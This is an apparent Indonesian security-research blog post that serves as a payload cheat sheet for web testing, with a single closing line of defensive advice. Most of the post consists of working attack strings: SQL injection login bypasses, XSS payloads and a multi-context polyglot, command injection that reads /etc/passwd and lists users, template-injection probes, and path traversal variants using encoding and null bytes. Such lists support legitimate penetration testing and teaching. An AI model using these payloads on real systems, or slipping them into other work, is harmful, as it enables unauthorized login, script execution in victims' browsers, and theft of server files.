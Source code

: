 ```yaml
---
title: Security Researcher - SQLi Authentication Bypass, XSS, XSS Polyglots, Command Injection, SSTI, Path Traversal
excerpt: SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.
date: 2024-03-31 01:37:00
tags: [1337rokudenashi]
categories:
  - [Security Researcher]
index_img: https://s6.imgcdn.dev/YsSjUh.jpg
banner_img: https://s6.imgcdn.dev/YsSjUh.jpg
---
```


SQLi Auth Bypass lewati login, XSS dan XSS Polyglots eksekusi skrip di browser, Command Injection jalanin perintah server, SSTI injeksi template, Path Traversal akses file sensitif.

**SQLi Authentication Bypass**

- `' or 1=1 limit 1 -- -+`
- `'="or'`

**XSS**

- `"><script>alert('vulnerable')</script>`
- `"><img src=vulnerable onerror=alert('vulnerable') />`
- `"><svg onload=alert('vulnerable')>`
- `"><input type=image src onerror="alert('vulnerable')">`

**XSS Polyglots**

Poliglot XSS adalah string yang mampu disuntikkan ke dalam beberapa konteks yang berbeda dan masih menghasilkan eksekusi JavaScript, ini bekerja di lebih dari 20 konteks.

- payload for xss polyglots
```polyglots
jaVasCript:/*-/*`/*`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>x3csVg/<sVg/oNloAd=alert()//>x3e
```

Kelemahan poliglot adalah mudah terdeteksi oleh firewall aplikasi web (WAF), mereka cenderung cukup panjang dalam hal panjang karakter, dan mereka tidak berfungsi di setiap konteks.

**Command Injection**

- `; uname -a; cat /etc/passwd`
- `& cmd /c "whoami & net user"`

**SSTI**

- `{{ 13*37 }}`
- `${{13*37}}`
- `<%= 13*37 %>`
- `#{13*37}`
- `{{= 13*37 }}`

**Path Traversal**

- `../../../etc/passwd`
- `/etc/passwd`
- `....//....//....//etc/passwd`
- `..%252f..%252f..%252fetc/passwd`
- `../../../etc/passwd%00.png`

Untuk SQLi Auth Bypass, gunakan prepared statements dan validasi input. Untuk XSS dan XSS Polyglots, lakukan output encoding dan sanitasi. Untuk Command Injection, batasi eksekusi dan validasi input. Untuk SSTI, hindari evaluasi input langsung. Untuk Path Traversal, batasi akses dan normalisasi path.
